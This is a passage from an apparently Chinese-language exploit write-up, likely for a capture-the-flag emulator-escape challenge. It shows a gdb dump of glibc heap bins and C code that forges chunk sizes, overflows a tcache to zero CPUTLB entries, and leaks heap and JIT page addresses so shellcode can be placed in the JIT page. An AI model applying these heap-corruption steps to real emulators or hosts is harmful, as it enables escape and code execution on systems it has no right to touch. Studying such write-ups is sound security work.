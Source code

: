 ```gdb {hide=true}
0x40: 0x79a9c01c2040 —▸ 0x79a9c01c1fb0 —▸ 0x79a9c01c1da0 —▸ 0x79a9c01c1d10 —▸ 0x79a9c01c1c80 —▸ 0x79a9c01c1b00 —▸ 0x79a9c01c1a70 —▸ 0x79a9c01c1980 ◂— ...
0x50: 0x79a9c01c1ff0 —▸ 0x79a9c01c1f60 —▸ 0x79a9c01c1cc0 —▸ 0x79a9c01c1a20 —▸ 0x79a9c01c18a0 —▸ 0x79a9c01c1150 —▸ 0x79a9c01c0dc0 —▸ 0x79a9c01c0d30 ◂— ...
0x60: 0x79a9c01bff60 —▸ 0x79a9c01bfd30 —▸ 0x79a9c01bd4d0 —▸ 0x79a9c01bd5f0 —▸ 0x79a9c01bca30 —▸ 0x79a9c01bb510 —▸ 0x79a9c01b9240 —▸ 0x79a9c03a0b30 ◂— ...
0x70: 0x79a9c01bf300 —▸ 0x79a9c01be580 —▸ 0x79a9c01b9ac0 —▸ 0x79a9c01b9340 —▸ 0x79a9c01b9080 —▸ 0x79a9c039c700 —▸ 0x79a9c039a880 —▸ 0x79a9c0398e80 ◂— ...
0x80: 0x79a9c01c0050 —▸ 0x79a9c01bfe20 —▸ 0x79a9c01bd6e0 —▸ 0x79a9c01bcb20 —▸ 0x79a9c01bb600 —▸ 0x79a9c01b8b30 —▸ 0x79a9c039d380 —▸ 0x79a9c039d270 ◂— ...
unsortedbin
all: 0x79a9c01c24a0 —▸ 0x79a9c0000090 ◂— 0x79a9c01c24a0
smallbins
0x20: 0x79a9c0909340 —▸ 0x79a9c09ce300 —▸ 0x79a9c0060a20 —▸ 0x79a9c0905400 —▸ 0x79a9c09ce130 —▸ 0x79a9c0898dd0 —▸ 0x79a9c09ce4d0 —▸ 0x79a9c09cead0 ◂— ...
0x70: 0x79a9c09ce400 —▸ 0x79a9c09cea00 —▸ 0x79a9c089a140 —▸ 0x79a9c09176c0 —▸ 0x79a9c090df00 —▸ 0x79a9c0906a80 —▸ 0x79a9c090c680 —▸ 0x79a9c090a940 ◂— ...
0x80: 0x79a9c09cd630 —▸ 0x79a9c090eca0 —▸ 0x79a9c0915b60 —▸ 0x79a9c090b690 —▸ 0x79a9c090f520 —▸ 0x79a9c090e000 —▸ 0x79a9c090b130 —▸ 0x79a9c090bfc0 ◂— ...
largebins
0x40000-0x7fff0: 0x79a9c09f3150 —▸ 0x79a9c0000850 ◂— 0x79a9c09f3150
0x80000-∞: 0x79a9c06b5eb0 —▸ 0x79a9c05d5c00 —▸ 0x79a9c0000860 ◂— 0x79a9c06b5eb0
```

所以我们需要在释放0x110的chunk2之前提前申请一个0x110 tcache chunk为其挪出一个空位：

```c
    // 使0x110 tcache bin中只有6个chunk
    set64(7, 0x108, 0x35); // 提前看了一下后面堆块的大小是0x30，这里顺手伪造一下，减少问题
    parse_bdlp(7, 0x11-2);
    // 伪造chunk1.size=0x110
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;   // CPUTLB[0]写入映射
    parse_bdlp(1, 0x11-2); // 释放0x110 chunk进入tcache再取出，溢出覆盖CPUTLB[0].addr_read/write=0
```



## Step3: Leak and execute shellcode in JIT page

泄露线程堆arena中的指针，得到线程堆（theap）和JIT page的地址，而后将JIT page指针写入theap的任意tcache entry（这里写入的是0x1a0 tcache entry），申请到JIT page内存写入shellcode即可完成利用：

```c
    /* Step3: Leak and execute shellcode in JIT page */
    volatile uint64_t *target = 0;
    //for (size_t i = 0; i < 0x10; i++)
    //    printf("[0x%lx] %p\n", i, (void *)target[i]);

    uint64_t theap = target[0] - 0x30;
    uint64_t jit = target[0x17f] - 0x2d;
    printf("[*] theap: %p\n", (void *)theap);
    printf("[*] jit: %p\n", (void *)jit);

    // 0x1a0 tcache entry
    target[0xa20/8] = jit;
```
